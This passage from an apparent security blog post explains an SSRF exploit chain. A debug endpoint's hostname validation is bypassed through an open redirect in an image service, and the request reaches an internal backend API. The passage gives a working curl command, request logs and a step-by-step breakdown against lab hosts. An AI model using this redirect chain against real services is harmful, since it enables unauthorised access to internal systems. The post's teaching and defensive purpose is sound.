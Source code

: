 and exploit:

```bash
$ curl -s \
    http://publicapi/debug\?url\=
        http://imageapi/redirect\?target\=
            http://backendapi/internal
This is internal sensitive endpoint
```

It might seems that it's a bit unfair to abuse Image API, but this is reality many bug bounty programs. You can find yet another service with vulnerability that you can chain together.

Do you see what kind of flaw is in Image API? It's [Open Redirect](https://portswigger.net/kb/issues/00500100_open-redirection-reflected). What it does? It returns `301` redirect http code and `Location` taken directly from input parameter (`target=`)

#### Exploit 3 step by step

Let's dive deeper into this chain of vulnerabilities:

```bash
# publicapi
-> /debug request: user-agent=curl/7.86.0
200 | GET "/debug?url=http://imageapi/redirect?target=
http://backendapi/internal"

# imageapi
-> /redirect request: user-agent=Go-http-client/1.1
301 | GET "/redirect?target=http://backendapi/internal"

# backendapi
-> /internal request: user-agent=Go-http-client/1.1
200 | GET "/internal"
```

- first Public API is called on `/debug` endpoint
- it will first validate hostname, which is `imageapi` - OK!
- than it will call `imageapi` on `/redirect` endpoint
- Image API will return `301` redirect to `backendapi` location
- **Public API will follow redirect and call Backend API**

One more view on this:

{{< figure src="https://github.com/xvnpw/xvnpw.github.io/assets/17719543/b06b7a27-2704-40e1-bb7c-c519b34c6e40" class="image-center" >}}


This is very interesting. Go http default client will follow any redirects. You will get same behavior in other languages.

Our positive validation code is best what we could done. Why we didn't mitigate this scenario? It's really simple: `http` client knows nothing about validation. 

{{< figure src="https://github.com/xvnpw/xvnpw.github.io/assets/17719543/6217f5b9-59c0-4ce0-a827-ba1325b8a43f" class="image-center" >}}


If you have any comments or feedback, you are welcome to write to me on [Twitter](https://twitter.com/xvnpw).